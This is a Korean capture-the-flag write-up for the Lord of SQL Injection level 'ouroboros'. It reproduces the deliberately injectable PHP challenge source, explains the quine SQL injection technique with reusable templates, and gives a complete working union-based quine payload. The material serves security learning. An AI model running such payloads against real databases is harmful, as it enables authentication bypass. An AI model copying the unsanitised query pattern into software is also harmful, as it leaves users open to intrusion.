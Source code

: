 ```yaml
---
title : "LOS Lv.30 ouroboros (풀이 봄)"
categories : [Wargame, rubiya]
tags : [quine sql injection, 풀이 봄]
---
```



## ouroboros
<hr style="border-top: 1px solid;"><br>

```php
query : select pw from prob_ouroboros where pw=''

<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

```?pw=' or 1 %23``` 해주면 아무것도 안나옴. -> 아무 값도 없다

따라서 union을 통해 값을 넣어줘야 되는데 불가능함. 

왜 와이 ? 문제 클리어 조건은 결과 pw와 입력 pw가 같아야 하는데 테이블에는 아무 값도 없는 상태이므로 union으로 값을 넣어줘도 클리어는 불가능.

그래서 혼란스러워하다가 답지를 보니 **quine**이라는 것이 있다고 함.

<br><br>

### quine
<hr style="border-top: 1px solid;"><br>

자기자신(즉 소스코드)를 출력하는 개념으로, 이 개념을 이용해서 sql언어로 작성된 quine이 있음. 
: <a href="https://ko.wikipedia.org/wiki/콰인_(전산학)" target="_blank">namuwiki - quine</a>   

<br><br>

### quine sql injection
<hr style="border-top: 1px solid;"><br>

```
34 = " (double quotes)

36 = $ (dollar)

39 = ' (single quote)
```

<br>

```php
SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine;
```

<br>

```php
SELECT 
  REPLACE (

    REPLACE (

      'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',

      CHAR(34),

      CHAR(39)

    ), # -> 'SELECT REPLACE(REPLACE('$',CHAR(34),CHAR(39)),CHAR(36),'$') AS Quine'

    CHAR(36),

    'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine'

  ) AS Quine; 
```

<br>

```php
# 싱글쿼트가 필요한 경우
select replace(replace('[prefix] select replace(replace("$",char(34),char(39)),char(36),"$") [postfix]',char(34),char(39)),char(36),'[prefix] select replace(replace("$",char(34),char(39)),char(36),"$") [postfix]') [postfix];
```

<br>

```php
# 더블쿼트가 필요한 경우
select replace(replace("[prefix] select replace(replace('$',char(39),char(34)),char(36),'$') [postfix]",char(39),char(34)),char(36),"[prefix] select replace(replace('$',char(39),char(34)),char(36),'$') [postfix]") [postfix];
```

<br>

자세한 건 <a href="https://blog.p6.is/quine-sql-injection/" target="_blank">blog.p6.is/quine-sql-injection/</a>  

정리하면 다음과 같음.

<br>

```php
$a = [추가해도 됨] select replace(replace("$", char(34), char(39)), char(36), "$") as quine [추가해도 됨]

# -> 단, 더블쿼터가 싱글쿼터로 바뀐다는 점 유의해서 추가

[추가해도 됨] select replace(replace('$a', char(34), char(39)), char(36), '$a') as quine [추가해도 됨]
```

<br><br>

### Payload
<hr style="border-top: 1px solid;"><br>

```' union```과 주석(%23)을 추가해주면 됨.

```php
?pw=' union select replace(replace('" union select replace(replace("$", char(34), char(39)), char(36), "$") as quine %23', char(34), char(39)), char(36), '" union select replace(replace("$", char(34), char(39)), char(36), "$") as quine %23') as quine %23
```

<br><br>
<hr style="border: 2px solid;">
<br><br>
